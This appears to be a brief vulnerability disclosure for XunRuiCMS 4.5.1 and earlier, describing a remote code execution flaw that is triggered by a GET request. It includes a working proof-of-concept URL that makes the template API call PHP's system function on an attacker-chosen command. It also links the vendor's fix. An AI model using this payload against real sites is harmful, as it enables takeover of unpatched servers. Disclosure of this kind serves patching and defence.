 # xunruicms4.5.1-RCE

## Vulnerability title
XunRuicms version 4.5.1 analysis remote code execution

## Affected version
version 4.5.1 or lower

## Discoverer
Jiang

## analysis report
### Vulnerability testing environment
https://www.xunruicms.com/down/

### Vulnerability description
when you use the method of get to commit a evil payload,the code will be executed.

### Vulnerability verification

`http://localhost:2333/index.php?s=api&c=api&m=template&app=admin&name=api_related.html&phpcmf_dir=admin&mid= action=function name=system param0=calc`

![1](https://j1ang.oss-cn-hangzhou.aliyuncs.com/img/1.gif)

## Adding
When I contacted the manufacturer, they have fixed this vulnerability, but some users did not update it.
They commit Here.
https://gitee.com/dayrui/xunruicms/commit/80e2d8f3008384d926c64163b7334a260edc0a51

![image](https://user-images.githubusercontent.com/71314272/128168605-9b47c078-4b34-4da0-b40a-947fe3b17829.png)
